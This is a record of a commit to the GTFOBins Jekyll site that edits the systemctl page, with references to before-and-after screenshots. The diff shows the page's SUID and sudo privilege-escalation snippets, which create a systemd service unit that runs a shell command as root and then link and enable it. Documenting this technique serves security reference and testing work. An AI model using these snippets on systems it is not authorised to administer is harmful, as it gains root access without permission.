

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/systemctl.md, in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Minor changes to example

```diff
--- a/_gtfobins/systemctl.md
+++ b/_gtfobins/systemctl.md
@@ -2,20 +2,20 @@
 functions:
   suid:
     - code: |
-        TF=/tmp/test.service
+        TF=$(mktemp).service
         echo '[Service]
           Type=oneshot
-          ExecStart=/bin/sh -c "id >> /tmp/output"
+          ExecStart=/bin/sh -c "id > /tmp/output"
           [Install]
           WantedBy=multi-user.target' > $TF
-        systemctl link $TF
-        systemctl enable --now $TF
+        ./systemctl link $TF
+        ./systemctl enable --now $TF
   sudo:
     - code: |
-        TF=/tmp/test.service
+        TF=$(mktemp).service
         echo '[Service]
           Type=oneshot
-          ExecStart=/bin/sh -c "id >> /tmp/output"
+          ExecStart=/bin/sh -c "id > /tmp/output"
           [Install]
           WantedBy=multi-user.target' > $TF
         sudo systemctl link $TF
```
